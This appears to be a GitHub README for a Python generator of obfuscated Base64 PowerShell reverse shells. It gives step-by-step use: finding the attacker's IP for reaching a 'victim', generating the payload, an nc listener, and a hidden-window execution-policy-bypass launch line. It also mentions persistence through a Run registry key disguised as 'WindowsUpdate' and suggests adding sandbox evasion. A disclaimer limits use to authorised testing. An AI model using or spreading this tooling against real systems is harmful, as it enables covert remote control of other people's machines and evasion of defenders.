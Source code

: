 # PowerShell Reverse Shell Generator

A Python-based utility for generating obfuscated Base64-encoded PowerShell reverse shells.

## Features
- IP/Port configuration through command-line arguments
- Automatic Base64 encoding with proper UTF-16LE conversion
- Basic anti-analysis patterns
- Error handling integration

## Prerequisites
- Python 3.6+
- PowerShell 5.0+

## IP Configuration
To get your IP address on your local Ubuntu machine, use one of the following methods:

1. Get Your Local (Private) IP Address (for LAN use)
Run:

```bash
ip a
```
or 

```bash
hostname -I
```
This will show the IP assigned by your router (e.g., 192.168.x.x or 10.x.x.x).

1. Get Your Public IP Address (for WAN use)
Run:

```bash
curl ifconfig.me
```
or

```bash
curl -s http://checkip.amazonaws.com
```
This will show the public IP assigned by your ISP, which is needed if you're connecting from an external network.

Note:

If you want a victim from another network to connect to your machine, use your public IP and ensure your router forwards the listening port to your local machine.

If the victim is on the same network, use your local IP instead.

## Usage

1. Clone the repository:
```bash
git clone https://github.com/Ethixlucifer/powershell-win1.git
cd powershell-win1
```

2. Generate payload:
```bash
python rshell.py -i 192.168.1.100 -p 2222
```

3. Start listener (on attacker machine):
```bash
nc -nvlp 2222
```

4. Execute generated command on target machine

## Example Output
```powershell
Start-Process powershell -ArgumentList "-ep bypass -e {b64_final}" -WindowStyle Hidden
```
## reverse shell termination
```powershell
# Remove registry entry
Remove-ItemProperty -Path HKCU:\Software\Microsoft\Windows\CurrentVersion\Run -Name WindowsUpdate

# Kill active sessions
Get-CimInstance Win32_Process | Where-Object { 
    $_.CommandLine -like "*WindowsUpdate*" 
} | Stop-Process -Force
```

## Important Notes
- Always test payloads in controlled environments
- Use proper network encryption (SSL/TLS)
- Consider adding sandbox evasion techniques
- Maintain strict version control for detection testing

## Legal Disclaimer
This tool is intended for:
- Authorized penetration testing
- Educational purposes
- Security research

```powershell
Always obtain proper authorization before using this tool against any network or system. I ethixlucifer is not liable for any discripent use of this tool. I purely built it for the testing purpose with no intention to be used in a production / real-world scenario.
```